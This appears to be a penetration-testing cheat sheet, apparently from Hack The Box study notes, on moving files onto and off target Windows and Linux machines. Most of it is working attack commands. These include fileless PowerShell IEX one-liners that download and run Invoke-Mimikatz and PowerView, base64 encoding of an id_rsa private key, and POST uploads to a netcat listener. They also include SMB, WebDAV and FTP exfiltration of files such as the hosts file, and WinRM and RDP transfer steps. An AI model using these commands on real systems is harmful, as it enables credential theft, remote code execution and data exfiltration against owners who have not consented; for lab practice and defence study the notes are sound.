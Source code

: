 ### Base 64 transfer file without actually downloading anything

Check HASH of original file 
```shell
md5sum id_rsa
```
Encode to base 64 
```shell
cat id_rsa |base64 -w 0;echo
```
Copy and paste across, decode with powershell

```powershell
PS C:\htb> [IO.File]::WriteAllBytes("Details.txt", [Convert]::FromBase64String("<base 64>"))
```

# Downloads
## PowerShell Web Downloads
[Using System.Net.WebClient](https://learn.microsoft.com/en-us/dotnet/api/system.net.webclient?view=net-5.0)

|**Method**|**Description**|
|---|---|
|[OpenRead](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openread?view=net-6.0)|Returns the data from a resource as a [Stream](https://docs.microsoft.com/en-us/dotnet/api/system.io.stream?view=net-6.0).|
|[OpenReadAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openreadasync?view=net-6.0)|Returns the data from a resource without blocking the calling thread.|
|[DownloadData](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddata?view=net-6.0)|Downloads data from a resource and returns a Byte array.|
|[DownloadDataAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddataasync?view=net-6.0)|Downloads data from a resource and returns a Byte array without blocking the calling thread.|
|[DownloadFile](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfile?view=net-6.0)|Downloads data from a resource to a local file.|
|[DownloadFileAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfileasync?view=net-6.0)|Downloads data from a resource to a local file without blocking the calling thread.|
|[DownloadString](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstring?view=net-6.0)|Downloads a String from a resource and returns a String.|
|[DownloadStringAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstringasync?view=net-6.0)|Downloads a String from a resource without blocking the calling thread.|

```powershell
(New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
```

```powershell
(New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
```

### Fileless
Download and execute directly. 
```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

```powershell
(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```

### Slow Method:
```powershell
Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```

### Common PowerShell errors

#### Internet Explorer first launch has not been configured 
```powershell
Invoke-WebRequest https://<ip>/PowerView.ps1 | IEX
```

#### Certificate Not Trusted
```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
```


## SMB Downloads

Create an SMB Share 
```shell
sudo impacket-smbserver share -smb2support /tmp/smbshare
```
Copy the file 
```cmd-session
copy \\<local>\<file>
```

Security Policy Issue?
```shell
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

```cmd
net use n: \\192.168.220.133\share /<user>:<test> <folder>
```

## FTP Downloads 
Set Up FTP server 
```shell
sudo pip3 install pyftpdlib
```

```shell
sudo python3 -m pyftpdlib --port 21
```

```powershell
(New-Object(Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'ftp-file.txt')
```
### Command File 

```shell
echo open <ip> > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo GET <file> >> ftpcommand.txt
echo bye >> ftpcommand.txt
```
```cmd-session
ftp -v -n -s:ftpcommand.txt
```

# Upload
### Base 64 
```powershell
[Convert]::ToBase64String((Get-Content -path "<path>" -Encoding byte))
```

```shell
echo <flie | base64 -d > <filename>
```

```shell
md5sum hosts 
```

### Web Uploads 
```shell
pip3 install uploadserver
```
```shell
python3 -m uploadserver
```

```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')

Invoke-FileUpload -Uri http://<ip>:8000/upload -File <path to file>
```

#### Base 64 uploads
```powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path '<path to file>))
```

```shell
nc -lvnp 8000
```

```powershell
Invoke-WebRequest -Uri http://<ip>:8000/ -Method POST -Body $b64
```

### SMB Uploads 
[SMB is often prevented from leaving local network](https://support.microsoft.com/en-us/topic/preventing-smb-traffic-from-lateral-connections-and-entering-or-leaving-the-network-c0541db7-2244-0dce-18fd-14a3ddeb282a)

SMB over HTTP with WebDav.WebDAV
```shell
sudo pip install wsgidav cheroot
```
```shell
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
```
attempt to connect to share 
```cmd-session
dir \\<ip>\Directory
```
Upload Files 
```cmd
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
```

```cmd
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
```
### FTP Uploads 

```shell
sudo python3 -m pyftpdlib --port 21 --write
```

```powershell
New-Object Net.WebClient).UploadFile('ftp://<ip>/ftp-hosts', 'path to file')
```

#### Command File
```shell
echo open 192.168.49.128 > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
```
# [PowerShell Remoting](https://learn.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2)

By default creates HTTP and HTTPS listeners.

Confirm WinRM port 5985 is Open on Computer. 
```powershell
Test-NetConnection -ComputerName DATABASE01 -Port 5985
```
Create powershell remote session 
```powershell
$Session = New-PSSession -ComputerName DATABASE01
```
Attacker to Target:
```powershell
Copy-Item -Path <local machine file path> -ToSession $Session -Destination <output>
```
Target to Attacker 
```powershell
Copy-Item -Path "<file path>" -Destination C:\ -FromSession $Session
```


# RDP
## Shared Folders
### rdesktop 
```shell
rdesktop <ip> -d HTB -u <user> -p '<password>' -r disk:linux='<folder loc>'
```

### xfreerdp
```shell
xfreerdp /v:<ip> /d:HTB /u:<user> /p:'<passsword>' /drive:linux,<folder loc> /scale-desktop:200 /scale:180
```
